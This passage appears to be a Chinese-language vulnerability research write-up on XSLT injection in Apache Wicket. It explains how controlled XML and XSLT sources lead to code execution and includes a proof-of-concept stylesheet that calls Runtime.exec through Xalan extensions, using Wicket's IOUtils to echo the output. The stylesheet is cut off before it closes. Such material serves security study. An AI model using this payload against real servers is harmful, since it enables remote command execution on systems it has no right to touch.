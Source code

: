 如果控制了传入的xmlSource和xsltSource，就可以直接解析xslt模板，那直接用最原始的方式就可以实现xslt的注入

构造IResourceStream的参数值

```
IResourceStream xstlStream = new FileResourceStream(new File("poc.xml"));
IResourceStream xmlStream = new FileResourceStream(new File("poc.xml"));
```

![QQ_1730883759607](images/10.png)

## 命令执行回显

wicket中提供了一个`org.apache.wicket.util.io.IOUtils`类，其中的toString方法可以直接将InputStream转化为字符串返回

![QQ_1730883871229](images/11.png)

所以可以用这个方法来实现回显

```
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
                xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
                xmlns:rp="http://xml.apache.org/xalan/java/java.lang.Process"
                xmlns:jv="http://xml.apache.org/xalan/java/"
                xmlns:ob="http://xml.apache.org/xalan/java/java.lang.Object"
                xmlns:sc="http://xml.apache.org/xalan/java/java.util.Scanner"
                xmlns:is="http://xml.apache.org/xalan/java/java.io.InputStream"
                xmlns:io="http://xml.apache.org/xalan/org/org.apache.wicket.util.io.IOUtils"
>
    <xsl:template match="/">
       <xsl:variable name="rtobject" select="rt:getRuntime()"/>
        <xsl:variable name="process" select="rt:exec($rtobject,'echo 111')"/>
        <xsl:variable name="isstream" select="rp:getInputStream($process)"/>
        <xsl:variable name="sc_string" select="io:toString($isstream,'GBK')"/>
        <xsl:value-of select="$sc_string"/>
```